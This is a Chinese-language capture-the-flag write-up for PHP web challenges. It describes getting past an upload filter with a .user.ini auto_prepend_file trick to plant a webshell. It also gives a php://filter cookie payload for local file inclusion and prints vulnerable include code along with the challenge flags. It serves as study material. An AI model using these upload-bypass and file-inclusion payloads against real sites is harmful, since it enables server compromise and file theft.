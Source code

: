 ### easyupload

1. 没有思路，看别人的writeup，知道了.user.ini这个文件是对php.ini文件的补充
2. 利用特性auto_prepend_file的特性，每个php文件都在文件头包含此文件，写一个.user.ini文件上传，
   GIF89（图片文件头绕过检测）
   auto_prepend_file=1.jpg
3. 只要检测到文件里有php就禁止上传，1.txt内写入 `<?=php后门代码?>`,利用短标签绕过，
4. 上传发现无效，怀疑是短标签设置选项没打开，再加一句short_open_tag=On,上传user.ini
5. 蚁剑连接，查看flag

cyberpeace{64f261d33744ecc2349c43f9550b823f}

### fileinclude

1. 直接访问flag.php没反应
2. 查看网页源码

```php
<?php
if( !ini_get('display_errors') ) {
  ini_set('display_errors', 'On');
  }
error_reporting(E_ALL);
$lan = $_COOKIE['language'];
if(!$lan)
{
        @setcookie("language","english");
        @include("english.php");
}
else
{
        @include($lan.".php");
}
$x=file_get_contents('index.php');
echo $x;
?>
```

3. 传一个cookie参数，language=xxx，加上后缀.php被包含
4. Cookie: language=php://filter/read=convert.base64-encode/resource=flag
5. 得到PD9waHANCiRmbGFnPSJjeWJlcnBlYWNle2E1NTBhNmVjZTAzZWQyOWExN2Y5MThlMWFjMDgxYjc3fSI7DQo/Pg==
   base64解码

cyberpeace{a550a6ece03ed29a17f918e1ac081b77}

### fileclude

1. 查看网页源代码

   ```php
   <?php
   include("flag.php");
   highlight_file(__FILE__);
   if(isset($_GET["file1"]) && isset($_GET["file2"]))
   {
       $file1 = $_GET["file1"];
       $file2 = $_GET["file2"];
       if(!empty($file1) && !empty($file2))
       {
           if(file_get_contents($file2) === "hello ctf")
           {
               include($file1);
           }
       }
       else
           die("NONONO");
   }
   ```